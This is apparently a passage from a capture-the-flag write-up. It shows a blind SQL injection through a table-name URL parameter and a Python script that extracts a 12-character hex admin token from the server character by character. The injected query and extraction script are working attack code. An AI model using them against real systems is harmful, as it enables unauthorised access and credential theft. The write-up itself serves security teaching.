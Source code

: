 ```sql
SELECT ID, Title, Message FROM web_alerts.Alerts, (SELECT Token FROM Token WHERE Token LIKE '%x%') WHERE resolved = 0;
```

The above query takes advantage of wild cards and `LIKE` to return results if the Token column contains the character `x`, and no results if it does not. For example, if we start with `a`, and results are returned, we can then try (`aa`, `ba`, `ab`, `ca`) and so on until we find the full token value. We know the token consists of 12 hexadecimal characters; it is possible, but painful, to do this by hand. Instead, we can use the following Python script (note if using VS Code, you may want to turn off `auto indent` in the settings before pasting):

```python
import requests

chars = "1234567890abcdef"

token = ""

def getUrl(token):
    return f"http://web.us/alerts?t=Alerts,%20(SELECT%20Token%20FROM%20Token%20WHERE%20Token%20LIKE%20%22%25{token}%25%22)%20as%20a"

while len(token) < 12:
    length = len(token)
    for c in chars:
        r = requests.get(getUrl(c + token))
        if "Admin" in r.text:
            token = c + token
            print(token)
        r = requests.get(getUrl(token + c))
        if "Admin" in r.text:
            token = token + c
            print(token)
    if len(token) == length:
        print(f"Did not make any progress this last loop! Got {token}")
print(token)
```
